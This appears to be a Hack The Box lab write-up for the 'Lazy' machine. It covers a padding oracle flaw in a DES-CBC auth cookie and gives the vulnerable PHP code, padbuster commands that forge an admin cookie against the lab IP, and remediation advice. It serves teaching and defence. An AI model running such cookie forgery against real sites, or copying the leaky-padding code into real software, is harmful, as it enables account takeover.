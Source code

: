 <div align='center'>

# **HTB Lazy Pentest Report**

</div>

## **HTB-Lazy-01: Auth cookie is vulnerable to padding oracle attack [High]**

### **Description and Impact**

The auth cookie is used for determining who is logged in. The cookie is vulnerable to padding oracle attack which allows an attacker to forge a cookie and making the server think that the attacker is  logged in as admin's account.

### **Root-cause Analysis**

In the file `/var/www/html/classes/user.php`, there are two functions: `encryptString` and `decryptString`

```php
function encryptString($unencryptedText, $passphrase) { 
  $iv = mcrypt_create_iv( mcrypt_get_iv_size(MCRYPT_DES, MCRYPT_MODE_CBC), MCRYPT_RAND);
  $text = pkcs5_pad($unencryptedText,8);
  $enc = mcrypt_encrypt(MCRYPT_DES, $passphrase, $text, MCRYPT_MODE_CBC, $iv); 
  return base64_encode($iv.$enc); 
}

function decryptString($encryptedText, $passphrase) {
  $encrypted = base64_decode($encryptedText);
  $iv_size =  mcrypt_get_iv_size(MCRYPT_DES, MCRYPT_MODE_CBC);
  $iv = substr($encrypted,0,$iv_size);
  $dec = mcrypt_decrypt(MCRYPT_DES, $passphrase, substr($encrypted,$iv_size), MCRYPT_MODE_CBC, $iv);
  $str = pkcs5_unpad($dec); 
  if ($str === false) {
    echo "Invalid padding";
    die(); 
  }
  else {
    return $str; 
  }
}
```

The developer use DES with CBC mode. Moreover, the padding error is displayed clearly to the user (`Invalid padding`). This allows an attacker to use padding oracle attack to forge a cookie.

### **Steps to Reprocedure**

1. Register a new account with the following credentials:

        username: giang
        password: a

We get an auth cookie for the user `giang`. In this case, my cookie is

    auth: y93eOCigcmLxD58C7qjwjJ0BgPX%2BJgBP

2. Using the tool called [padbuster](https://github.com/AonCyberLabs/PadBuster) to perform padding oracle attack.

```zsh
padbuster http://10.10.10.18 y93eOCigcmLxD58C7qjwjJ0BgPX%2BJgBP 8 -cookies auth=y93eOCigcmLxD58C7qjwjJ0BgPX%2BJgBP
```

The tool will ask for entering an ID, enter 2

![](./img/2.png)

After running for a while, we get the following result:

![](./img/3.png)

3. Use `padbuster` again to forge a cookie for the user `admin`

```zsh
padbuster http://10.10.10.18 y93eOCigcmLxD58C7qjwjJ0BgPX%2BJgBP 8 -cookies auth=y93eOCigcmLxD58C7qjwjJ0BgPX%2BJgBP -plaintext user=admin
```

The tool will ask for entering an ID, enter 2

![](./img/5.png)

After running for a while, we get the new cookie for the user `admin`:

    auth: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA

![](./img/4.png)

4. Change the cookie in the browser to that value and refresh the page. We can see that we are logged in as `admin` now.

![](./img/6.png)

### **Recommendation**

1. Use a stronger encryption algorithm such as AES, and do not use CBC or ECB mode.
2. Use generic message when displaying error to the user such as 'Something wrong'.

### **References**

1. https://robertheaton.com/2013/07/29/padding-oracle-attack/
2. https://en.wikipedia.org/wiki/Padding_oracle_attack
3. https://www.youtube.com/watch?v=O5SeQxErXA4